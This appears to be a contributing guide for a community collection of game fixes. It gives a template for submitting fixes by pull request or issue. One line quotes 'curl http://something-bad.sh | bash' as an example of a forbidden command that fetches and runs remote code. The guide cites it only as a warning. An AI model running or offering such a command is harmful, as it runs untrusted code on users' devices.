 You can share your fix either with 
 * A pull request (developper way)
 * By filling an issue (other people > button issues above > new > copy paste the template below and replace content accordingly)

Please follow the template bellow to makes it simpler to me to integrate with existing work.

### Game name - Platform name

[Source](http://alinktothesource.com)

(link have to be written like below in github)

![image](https://user-images.githubusercontent.com/5399780/211127340-f72de26c-a515-418c-bc4a-1cfdb6e0c793.png)


Problem :

Describe the problem in a concise way to **let folks easily identify** if they have the same issue

Solution :

 * Describe a reproductible way to solve the issue as you can. keep in mind many users are non technical persons that should be able to do the trick from your steps.
 * A link to external ressource has a great chance to be removed to prevent user running arbitrary code on their devices. 
 * If commands are provided (let say bash things), it must remain simple and concise and must NOT trigger arbitrary code (e.g curl http://something-bad.sh | bash)
 * Specific commands with explicit values might be allowed sed -i s/thing/newvalue/ /home/deck/path/to/game/settings.ini

Have a look to existing tricks for inspiration 😉

I am open to any suggestion, do not hesitate to ask / share !
